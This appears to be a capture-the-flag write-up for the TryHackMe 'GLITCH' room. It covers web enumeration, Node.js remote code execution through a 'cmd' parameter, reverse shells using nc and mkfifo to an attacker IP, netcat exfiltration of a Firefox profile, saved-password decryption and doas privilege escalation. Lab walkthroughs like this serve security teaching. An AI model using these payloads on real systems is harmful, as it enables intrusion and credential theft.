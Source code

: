 ```yaml
---
layout: post
permalink: /posts/thm/glitch
title: "GLITCH"
---
```


Challenge showcasing a web app and simple privilege escalation. Can you find the glitch?

Scan the target machine with nmap

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/glitch/nmap.png)

There is open port 80 HTTP. We can scan for any hidden directories. I'm going to use gobuster.

```
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x txt,php
```

While we are waiting for the result scan from gobuster, we can visit this web application.

![webpage](/assets/images/thm/glitch/webpage.png)

There is nothing interesting, let's review the source code `Ctrl + U` or you can also add `view-source:` at the beginning of the url

```
view-source:http://<IP>/
```

![source-code](/assets/images/thm/glitch/source-code.png)

There is a java script code with a function `getAccess()` which calls the method `fetch()`. The Fetch API is a modern interface that allows you to make HTTP requests to servers from web browsers(for more additional information you can visit <https://www.javascripttutorial.net/javascript-fetch-api/>). In general fetch method makes a request to `/api/access` endpoint and the result of this request is send to the console log. Meanwhile the gobuster scan has finished.

![gobuster](/assets/images/thm/glitch/gobuster.png)

I have visit `/secret` directory but it looks the same as the root directory.

![secret](/assets/images/thm/glitch/secret.png)

Anyways... let's execute the getAccess function. Open the browser's developer tool by pressing `f12` and navigate to `Console` tab. Now just execute the function.

![console-log](/assets/images/thm/glitch/console-log.png)

It returns a token with base64 encoded value. Use the following command to decode it.

```
echo dGhpc19pc19ub3RfcmVhbA== | base64 -d
```

The result is: `this_is_not_real`. Now in Developer tool navigate to `Storage` and change the token's value with the found one and refresh the page.

![token](/assets/images/thm/glitch/token.png)

Check the source code again.

![spurce-code-token](/assets/images/thm/glitch/spurce-code-token.png)

There is a script.js, let's visit it.

![script](/assets/images/thm/glitch/script.png)

The script in general populate the page with elements from `/api/items` endpoint. You can check them by visiting `view-source:http://<IP>/api/items`

I have been stuck here for a while and wasn't sure what to do. Secret directory didn't show anything even after we had set the token. I have looked at the hint and I realized that we need to play with different requests. For some information about the different HTTP methods visit: <https://assertible.com/blog/7-http-methods-every-web-developer-should-know-and-how-to-test-them>

Now open Burp Suite and catch the request from our target and send it to Repeater.

![burp-catch](/assets/images/thm/glitch/burp-catch.png)

Now from Repeater tab change the GET request to POST

![burp-post](/assets/images/thm/glitch/burp-post.png)

Good, we have received a message. In general POST requests are used to send data and these data take place in the body request. However we can send a POST request without a body and instead use query string parameters. To find this parameter we need to fuzz the request, we can use Intruder mode of the Burp Suite but it is slow, so I'm going to use wfuzz for that purpose.

```
wfuzz -z file,/usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt --hc 400 -X POST http://<IP>/api/items?FUZZ=value
```

where

```
-z : specify the payload
--hc : hide responses with the specified code
```

![wfuzz](/assets/images/thm/glitch/wfuzz.png)

I don't know why it returns some of the results which result is 400 but anyways, we have found the query parameter `cmd`. It looks that we should be able to execute some commands, so I tried to execute `id` command.

![burp-cmd](/assets/images/thm/glitch/burp-cmd.png)

Unfortunately we received an error. I made some research and I found these articles: <https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44> and <https://www.truesec.com/hub/blog/reverse-shell-through-a-node-js-math-parser>

In general it's a vulnerability that allows unauthenticated remote code execution. First thing that I tried, was to check whether I would be able to execute commands, Using `process.cwd()` we can see the current working directory. Let's try it.

![burp-cwd](/assets/images/thm/glitch/burp-cwd.png) 

Here we go... the command was successfully executed. Now, let's try to execute a reverse shell. First start a listener on your attacking machine.

```
nc -lvnp 4444
```

I have first tried with netcat with the following modules:

```
require("child_process").exec('nc <IP> 4444 -e /bin/bash')
```

Note that we need to encode the command, you can use this site for that purpose <https://meyerweb.com/eric/tools/dencoder/>

```
require("child_process").exec('nc%2010.10.41.235%204444%20-e%20%2Fbin%2Fbash')
```

The command was executed successfully but we weren't able to get shell.

![burp-nc](/assets/images/thm/glitch/burp-nc.png) 

So I decided to test with mkfifo.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP> 4444 >/tmp/f
```

and again encode the payload

```
require("child_process").exec('rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.41.235%204444%20%3E%2Ftmp%2Ff')
```

![burp-mkfifo](/assets/images/thm/glitch/burp-mkfifo.png)

We were able to get the reverse shell. Now we need to escalate our privileges but let's first spawn tty.

```
python3 -c "import pty;pty.spawn('/bin/bash')"
ctrl+z
stty raw -echo
fg
```

I checked whether the cuurent user has any rights to execute commands as root with the following command `sudo -l` but we do not have a password. In addition I checked whether there are any scripts run as cron job by reading `/etc/crontab` but unfortunatelly there is nothing there. Finally I searched for files with SUID bit set, which allows us to run a file with the same permissions as the owner of the file.

```
find / -type f -perm -u=s 2>/dev/null
```

![suid](/assets/images/thm/glitch/suid.png)

`/usr/local/bin/doas` this looks interesting. Based on this article <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#doas> `doas` is alternative of `sudo`. I wasn't able to find the configuration here: `/etc/doas.conf`, so I searched for it through the system.

```
find / -type f -name doas.conf 2>/dev/null
```

![doas-config](/assets/images/thm/glitch/doas-config.png)

It looks that the user `v0id` has the permission to execute this command which means we need to escalate our privileges to `v0id` first. In the current user's home directory we can find hidden directory `firefox`.

![user-home](/assets/images/thm/glitch/user-home.png)

Based on the following article <https://support.mozilla.org/en-US/kb/profiles-where-firefox-stores-user-data> it's a profile folder where firefox stores user's bookmark's, passwords and other user data. Again using hacktricks as a reference <https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/specific-software-file-type-tricks/browser-artifacts#firefox> we can use <https://github.com/unode/firefox_decrypt> to decrypt the master password.

Now, we need to download firefox folder on our attacking machine. I was able to start python server on the target machine using `python -m SimpleHTTPServer 8000` but I was not able to download the folder on my attacking machine. It looks that it is filtered.

![filtered](/assets/images/thm/glitch/filtered.png)

The other method that we can transfer the directory is through netcat, but netcat can transfer files, so we need to convert the folder into an archive.

Start listener on your attacking machine and store the result into a file.
```
nc -lvp 1234 > firefox_archive
```

On the target machine archive the folder and send it through netcat.
```
tar -cf firefox-archive .firefox/
nc -vn <ATTACKING_MACHINE_IP> 1234 < firefox-archive
```

![transfer](/assets/images/thm/glitch/transfer.png)

Now clone firefox decryption tool and get master password.

```
git clone https://github.com/unode/firefox_decrypt.git
cd firefox_decrypt
python3.9 firefox_decrypt.py ../.firefox/b5w4643p.default-release/
```

![master-password](/assets/images/thm/glitch/master-password.png)

Well done. Let's try to switch to `v0id` user using the found password.

![switch](/assets/images/thm/glitch/switch.png)

As we already know that this user can execute `doas` command, let's escalate our privileges to root.

```
doas /bin/bash
```

![root](/assets/images/thm/glitch/root.png)
